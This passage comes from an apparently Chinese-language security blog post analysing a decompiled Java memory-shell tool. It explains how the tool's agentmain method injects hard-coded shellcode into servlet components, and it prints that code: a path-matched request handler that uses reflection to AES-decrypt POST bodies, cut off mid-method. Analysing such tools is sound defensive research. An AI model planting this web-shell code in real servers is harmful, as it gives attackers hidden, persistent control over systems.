 反编译之后查看Memshell实现：

![image-20220307105835072](/img/忆往昔_JAVA内存马的一生/image-20220307105835072.png)

在其agentmain方法里面对相关组件进行判断，从而选择不同的类，并写入入shellcode：

shellcode是写死在里面的，不同的方法里面做一些简单的替换即可：

```java
javax.servlet.http.HttpServletRequest request=(javax.servlet.ServletRequest)$1;
javax.servlet.http.HttpServletResponse response = (javax.servlet.ServletResponse)$2;
javax.servlet.http.HttpSession session = request.getSession();
String pathPattern="%s";
if (request.getRequestURI().matches(pathPattern))
{
	java.util.Map obj=new java.util.HashMap();
	obj.put("request",request);
	obj.put("response",response);
	obj.put("session",session);
    ClassLoader loader=this.getClass().getClassLoader();
	if (request.getMethod().equals("POST"))
	{
		try
		{
			String k="%s";
			session.putValue("u",k);
			
			java.lang.ClassLoader systemLoader=java.lang.ClassLoader.getSystemClassLoader();
			Class cipherCls=systemLoader.loadClass("javax.crypto.Cipher");

			Object c=cipherCls.getDeclaredMethod("getInstance",new Class[]{String.class}).invoke((java.lang.Object)cipherCls,new Object[]{"AES"});
			Object keyObj=systemLoader.loadClass("javax.crypto.spec.SecretKeySpec").getDeclaredConstructor(new Class[]{byte[].class,String.class}).newInstance(new Object[]{k.getBytes(),"AES"});;
			       
			java.lang.reflect.Method initMethod=cipherCls.getDeclaredMethod("init",new Class[]{int.class,systemLoader.loadClass("java.security.Key")});
			initMethod.invoke(c,new Object[]{new Integer(2),keyObj});

			java.lang.reflect.Method doFinalMethod=cipherCls.getDeclaredMethod("doFinal",new Class[]{byte[].class});
            byte[] requestBody=null;
```